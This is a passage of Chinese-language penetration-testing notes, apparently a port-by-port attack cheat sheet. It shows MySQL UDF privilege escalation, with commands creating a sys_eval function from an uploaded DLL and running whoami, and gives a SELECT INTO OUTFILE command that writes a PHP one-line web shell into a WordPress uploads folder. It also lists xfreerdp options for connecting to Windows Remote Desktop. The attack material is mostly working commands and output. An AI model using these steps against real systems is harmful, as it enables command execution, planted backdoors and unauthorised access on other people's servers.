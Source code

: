 
运行后虽然上传了udf文件，创建了sys_exec()函数，但是没有返回session。此时可以通过mysql连接手动创建sys_eval()函数。

```
#先查询上传udf文件名
mysql> select * from mysql.func where name = 'sys_exec';
+----------+-----+--------------+----------+
| name     | ret | dl           | type     |
+----------+-----+--------------+----------+
| sys_exec |   2 | QApbQCTY.dll | function |
#创建sys_eval函数
mysql> create function sys_eval returns string soname 'QApbQCTY.dll';
Query OK, 0 rows affected (0.00 sec)
#测试运行whoami
mysql> select sys_eval('whoami');
+-----------------------+
| sys_eval('whoami')    |
+-----------------------+
| win-88jdvt747gh\test|
+-----------------------+
1 row in set (0.14 sec)
————————————————
```

### 有写入权限

```
show global veriables like '%secure%';

secure_file_priv为空
```

直接写入一句话木马

```
select "<?php system($_GET['132']); phpinfo();?>" into outfile '/var/www/https/blogblog/wp-content/uploads/shell.php';
```



## 3389端口 **远程桌面协议** RDP

连接windows远程桌面

```
/v: // 指定需要远程连接的系统ip或域名 
/u: // 远程系统上的用户名 
/p: // 你可以直接在这条命令输用户密码，若此时不指定可以运行时输入 
/f: // 全屏 
/w: // 指定远程桌面屏幕宽度 
/h: // 指定远程桌面屏幕高度 
/monitors: // 指定远程桌面在哪个显示器打开

xfreerdp /v:192.168.8.8:33389 /u:root /p:lhr  /sound
```
